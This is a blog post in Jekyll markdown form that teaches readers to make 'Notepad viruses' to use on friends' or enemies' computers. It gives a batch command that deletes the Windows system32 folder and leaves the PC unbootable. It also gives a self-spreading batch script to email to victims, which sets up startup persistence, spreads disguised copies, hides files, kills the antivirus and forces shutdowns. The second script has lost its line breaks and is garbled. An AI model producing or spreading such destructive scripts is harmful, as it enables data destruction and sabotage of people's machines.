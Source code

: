 ```yaml
---
layout: post
title:  "Destroy Your Friends Computer Using Simple Notepad Virus"
permalink: /destroy-your-friends-computer.html
redirect_from:
 - /2013/02/destroy-your-friends-computer-using.html
---
```


<strong>This tutorial is education purpose only</strong><br/>
In this post we’ll take a look on how to create a deadly computer virus to destroy your enemy or victim’s PC…

Open Notepad, Type or Paste in the following command:-

    del c:\windows\system32\*.* /q

Save it with the extension “.bat or .cmd” as u want…

Don’t double click the file otherwise u r in trouble. Why??? Bcz the file u created deletes all files from your system32 folder and when u restart your PC it will not start bcz system can not find the files in the system32 folder which is required at the time of booting…

You can also test the above by creating a fake folder let suppose:-

windows1 in C:.

Copy some old files in it and just follow the above command. By double clicking the bat or cmd file ur all files automaitcally get deleted.

You can try this file one any one’s computer. (but this result in causing damage to the computer, so think again before trying this on anyone’s PC)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

Virus 2:

This post is to help you to send viruses to your enemies! Here goes,

Paste the below given code in your Notepad, then save it as anyname.bat

Do not click on that batch file… Send it to your enimies’ email… It will:

1) Copy itself into startup

2) Copy itself over one thousand times into random spots in your computer

3) Hide its self and all other created files

4) Task kill MSN, Norton, Windows Explorer, Limewire.

5) Swap the left mouse button with the right one

6) Opens alert boxes

7) Changes the time to 12:00 and shuts down the computer

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

CODE:-

    @Echo offcolor 4title 4title R.I.Pstartstartstartstart calccopy %0 %Systemroot%\Greatgame > nulreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ/d %systemroot%\Greatgame.bat /f > nulcopy %0 *.bat > nulAttrib +r +h Greatgame.batAttrib +r +hRUNDLL32 USER32.DLL.SwapMouseButtonstart calcclstskill msnmsgrtskill LimeWiretskill iexploretskill NMainstartclscd %userprofile%\desktopcopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batcd %userprofile%My Documentscopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batstartstart calcclsmsg * R.I.Pmsg * R.I.Pshutdown -r -t 10 -c "VIRUS DETECTED"startstarttime 12:00:R.I.Pcd %usernameprofile%\desktopcopy Greatgame.bat %random%.batgoto RIP

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
